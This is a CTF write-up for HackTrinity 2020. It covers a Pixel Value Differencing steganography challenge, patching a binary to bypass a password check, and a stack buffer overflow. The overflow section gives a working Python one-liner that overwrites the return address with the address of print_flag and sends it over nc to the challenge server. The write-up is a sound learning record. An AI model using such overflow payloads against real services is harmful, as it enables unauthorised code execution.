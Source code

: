 # HackTrinity 2020 Solutions

Write up's for HackTrinity 2020.
This is a bit brief but I'll add more as we go along.

I started preparing for this CTF around 3-4 days prior and this was my first CTF so it was certainly difficult.

There were a few helpful resources that helped me. Primarily [Conor Mac Amhlaoibh](https://github.com/conormccauley1999/HackTrinity19Writeups/blob/master/README.md)'s write up for last years HackTrinity which helped me get a good feel for competition.

## Solved Problems


### Stegosaurus
Topic(s) | Points | Difficulty (in my opinion)
---------|--------|-----------
`forensics` | `388` | ![Hard](https://img.shields.io/badge/-Hard-orange.svg)
#### Challenge:
    My friend Wu said this was a better stegosaurus picture. Personally I can't see any DIFFERENCE, from the Previous Visual Depictions. Can you?
![flag.png](images/Stegosaurus/flag.png)
#### Solution: 
This problem was really interesting and took me a while to figure out. 

The key was figuring out the few hints in the challenge description. Wu isn't somee random person, he's the author of a paper on [Pixel Value Differencing](https://people.cs.nctu.edu.tw/~whtsai/Journal%20Paper%20PDFs/Wu_&_Tsai_PRL_2003.pdf).

A quick read of the paper specifies algorithm to encode and decode these images but I wasn't arsed to implement it myself so I looked up one on github and found one with nearly the exact same challenge description by [zst-ctf](https://github.com/zst-ctf/tjctf-2019-writeups/blob/master/Writeups/Planning_Virtual_Distruction/README.md).

I quickly tried his python script only to find that it didn't work.
I read over the paper again and found another set of range widths [2, 2, 4, 4, 4,8, 8, 16, 16, 32, 32, 64, and 64] and adjusted the if statements to suit. [Adjusted Python Script](src/Stegosaurus/Stegosaurus.py)

Running the program outputted the following:
![flag.png](images/Stegosaurus/output.png)
With the flag being: HackTrinity{Th3_H4ck3r_M4n1f35t0}

### Locked Out 1
Topic(s) | Points | Difficulty
---------|--------|-----------
`Reversing` | `288` | ![Medium](https://img.shields.io/badge/-Medium-yellow.svg)

##### Challenge:
    So I found this program on a hacking forum. The OP attached it to the thread saying he'd found a way to share his flag and you can't read it without knowing the password. I have no idea what the password is, but there were a lot of others laughing at OP saying they got the flag. Can you get it for me?
[Link](src/LockedOut/locked_out)
#### Solution:
This challenge actually has 2 solutions and the only reason I'm giving it a medium is because I took so long to find the reversing one. The second solution is discussed in [Locked Out 2](#Locked-Out-2)

The solution is rather simple and I think it's best described by a [LiveOverflow Video](https://www.youtube.com/watch?v=LyNyf3UM9Yc)

But all we're doing is going into Binary Ninja and patching the if statement so that it always outputs the flag. Save it is locked_out_cracked, run it and there's the flag.
##### Binary Ninja
![binaryninja](images/LockedOut/BinaryNinja.png)
##### Flag
![flag](images/LockedOut/flag.png)
### Locked Out 2
Topic(s) | Points | Difficulty
---------|--------|-----------
`Exploitation` | `394` | ![Easy](https://img.shields.io/badge/-Easy-green.svg)
#### Challenge:
    So back on the hacking forum, OP sick of being laughed at, said he's secured his flag by running his code on a remote server - he hasn't changed the code though.
#### Solution:
This challenge was a lot handier because I had already had the idea of abusing bufferoverflows to retrieve the flag.

The code was the exact same except this locked out file was located on a server and when you connect to it, there's no room for commands. This could only be a buffer overflow attack.

Since we had the code we just needed to figure out how many 'A's I'd need to overflow the buffer. I basically brute forced this by getting a really high number and a low number and found the number of A's needed .
##### Overflow
![overflow](images/LockedOut2/overflow.png)

Next I needed to find the location of the flag. I found a function called print_flag using gdb and then found its location.

##### print_flag location
![print_flag](images/LockedOut2/printFlagLocation.png)

After that I used python to prepare our overflow attack and execute the program

The struct module was handy because it converted our function location and transferred it instantly
```
python -c "import struct; print 'A'*264 + struct.pack('<I',0x000000004000139b)" | ./locked_out
```
![test](images/LockedOut2/test.png)

Now that I verified it worked for my test, I was ready to do it remotely. 

Place the following into the terminal, and our flag is revealed

```
python -c "import struct; print 'A'*264 + struct.pack('<I',0x000000004000139b)" | nc 192.168.146.1 1337
```
Flag: HackTrinity{bonfire_vet_TV_misplacement}
